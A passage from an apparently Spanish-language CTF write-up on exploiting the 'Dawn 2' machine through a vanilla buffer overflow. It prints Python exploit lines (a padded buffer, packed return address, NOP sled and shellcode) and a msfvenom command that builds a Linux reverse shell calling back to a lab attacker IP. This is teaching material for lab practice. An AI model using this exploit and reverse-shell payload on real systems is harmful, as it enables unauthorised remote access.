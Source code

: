 <iframe width="560" height="315" src="https://www.youtube.com/embed/Y8cRUK7jky4" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

Se puede utilizar el módulo struct para convertir el valor HEX en little-endian y no tener que reversear la dirección poniendola en hexadecimal manualmente:
> Documentación de la librería struct: [https://docs.python.org/3/library/struct.html](https://docs.python.org/3/library/struct.html)

```python
pushesp = struct.pack("<I", 0x34581777)
buffer = "A"*272 + pushesp + "\x90"*20 + shell + "\x00"
```

## Explotación de la máquina

En la máquina del CTF se hará uso de una reverse shell en Linux que será necesario generar y modificar en el exploit.

```python
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.49.186 LPORT=9001 -f c -b '\x00 EXITFUNC=thread'
```

Una vez ejecutado, se puede observar que desde el netcat se recibe la shell de la máquina, dandonos acceso a la misma.

<p align="center"><img src="https://raw.githubusercontent.com/alexfrancow/alexfrancow.github.io/master/images/2021-07-21-Dawn-2-Vanilla-Buffer-Overflow/Pasted%20image%2020210721174535.png" height="500" width="825" /></p>

<iframe width="560" height="315" src="https://www.youtube.com/embed/QPCWxrSKUjw" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
